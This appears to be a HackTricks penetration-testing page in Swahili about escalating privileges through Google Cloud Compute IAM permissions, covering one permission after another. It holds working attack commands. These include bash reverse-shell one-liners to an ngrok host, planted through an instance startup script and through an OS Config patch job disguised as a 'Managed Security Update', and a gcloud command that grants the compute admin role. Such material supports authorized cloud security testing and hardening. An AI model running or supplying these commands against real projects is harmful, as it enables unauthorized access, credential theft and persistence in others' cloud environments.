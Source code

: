 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (mtandao) katika GCP angalia:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Kumbuka kwamba ili kufanya mashambulizi yote ya kupandisha hadhi yanayohitaji kubadilisha metadata ya instance (kama kuongeza watumiaji wapya na funguo za SSH) **ni muhimu kuwa na ruhusa `actAs` juu ya SA iliyoambatanishwa na instance**, hata kama SA tayari imeambatanishwa!

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kubadilisha** taarifa za **metadata** za **instance** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** mtumiaji **mpya mwenye** ruhusa za sudo. Hivyo, utaweza kuingia kupitia SSH kwenye instance yoyote ya VM na kuiba GCP Service Account ambayo Instance inatumia.\
Vikwazo:

- Kumbuka kwamba GCP Service Accounts zinazotumika katika VM instances kwa kawaida zina **mipaka ya chini sana**
- Itabidi uwe **na uwezo wa kuwasiliana na** seva ya SSH ili kuingia

Kwa maelezo zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Unaweza pia kufanya shambulizi hili kwa kuongeza script mpya ya kuanzisha na kuanzisha upya instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ruhusa hii inatoa **privilege sawa na ruhusa ya awali** lakini juu ya mifano maalum badala ya mradi mzima. **Mizaha na mipaka sawa na ile ya sehemu ya awali inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya ruhusa itakuruhusu **kujipe nafasi na ruhusa za awali** na kupandisha madaraka kwa kuzitumia. Hapa kuna mfano wa kuongeza `roles/compute.admin` kwa Akaunti ya Huduma:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Ikiwa **OSLogin imewezeshwa katika mfano**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na mfano. Hutaweza kuwa na **root privs** ndani ya mfano.

> [!TIP]
> Ili kuingia kwa mafanikio na ruhusa hii ndani ya mfano wa VM, unahitaji kuwa na ruhusa ya `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imewezeshwa katika mfano**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na mfano. Utakuwa na **root privs** ndani ya mfano.

> [!TIP]
> Ili kuingia kwa mafanikio na ruhusa hii ndani ya mfano wa VM, unahitaji kuwa na ruhusa ya `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual yenye Akaunti ya Huduma iliyotolewa na kuiba tokeni** ya akaunti ya huduma kwa kufikia metadata ili kupandisha ruhusa kwake.

Script ya exploit kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** ruhusa unaweza kuunda [**kazi ya patch au uwekaji**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kuhamasisha kwa upande katika mazingira na kupata utekelezaji wa msimbo kwenye mifano yote ya kompyuta ndani ya mradi.

Kumbuka kwamba kwa sasa **huhitaji ruhusa ya `actAs`** juu ya SA iliyoambatanishwa na mfano.

Ikiwa unataka kutumia hii kwa mikono, utahitaji kuunda ama [**kazi ya patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **au** [**uwekaji**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Ili kukimbia kazi ya patch:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Ili kupeleka usasishaji wa patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Chombo [patchy](https://github.com/rek7/patchy) kinaweza kutumika zamani kwa kutumia hii misconfiguration (lakini sasa hakifanyi kazi).

**Mshambuliaji anaweza pia kutumia hii kwa kudumu.**

### `compute.machineImages.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya kompyuta.

### `compute.snapshots.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipatie ruhusa za ziada** kwa diski.

### Pita Mipaka ya Ufikiaji

Kufuata kiungo hiki utapata baadhi ya [**wazo za kujaribu kupita mipaka ya ufikiaji**](../).

### Kuinua Privilege ya Mitaa katika GCP Compute instance

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## Marejeleo

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
